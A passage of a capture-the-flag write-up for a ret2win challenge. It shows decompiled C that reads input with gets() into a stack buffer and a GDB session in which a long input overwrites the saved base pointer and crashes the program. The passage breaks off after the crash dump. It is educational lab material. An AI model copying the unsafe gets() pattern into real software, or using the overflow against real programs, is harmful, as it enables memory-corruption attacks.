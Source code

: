```c 
  puts("hey bud, how\'s it goin\'? what\'s your name?");
  printf("> ");
  gets(local_48);
  printf("hey hey nice to meet ya, %s\n",local_48);
  puts("just don\'t be snooping around my code and we\'ll get along fine...");

  return 0;
}
```

Clearly, this is a simple ret2win (a buffer overflow attack that redirects execution to a "win" function) challenge. The vulnerable line in our case is the gets() function. If you're unfamiliar, gets() allows you to input data larger than the allocated buffer size, enabling you to overflow the stack and override registers. Let's show an example of this with GDB:

```
$ gdb -q chall 
Reading symbols from chall...
(No debugging symbols found in chall)

gef➤  run
hey bud, how's it goin'? what's your name?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
$rcx   : 0x00007ffff7eb32c0  →  0x5877fffff0003d48 ("H="?)
$rdx   : 0x1               
$rsp   : 0x00007fffffffda38  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x1               
$rdi   : 0x00007ffff7f8fa10  →  0x0000000000000000
$rip   : 0x000000000040128f  →  <main+148> ret 
$r8    : 0x0000000000405305  →  0x0000000000000000
$r9    : 0x73              
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdb58  →  0x00007fffffffdf3b  →  "CLUTTER_IM_MODULE=ibus"
$r14   : 0x0000000000403e00  →  0x0000000000401150  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x00007ffff7ffd020  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffda38│+0x0000: "AAAAAAAAAAAAAAAAAAAAAAAAAAAA"       ← $rsp
0x00007fffffffda40│+0x0008: "AAAAAAAAAAAAAAAAAAAA"
0x00007fffffffda48│+0x0010: "AAAAAAAAAAAA"
0x00007fffffffda50│+0x0018: 0x0000000041414141 ("AAAA"?)
0x00007fffffffda58│+0x0020: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
0x00007fffffffda60│+0x0028: 0x00007fffffffdb48  →  0x00007fffffffdf03  →  "/pwn-simple-win/[...]"
0x00007fffffffda68│+0x0030: 0x2636e545aa3b0b1f
0x00007fffffffda70│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40128f in main (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40128f → main()
```
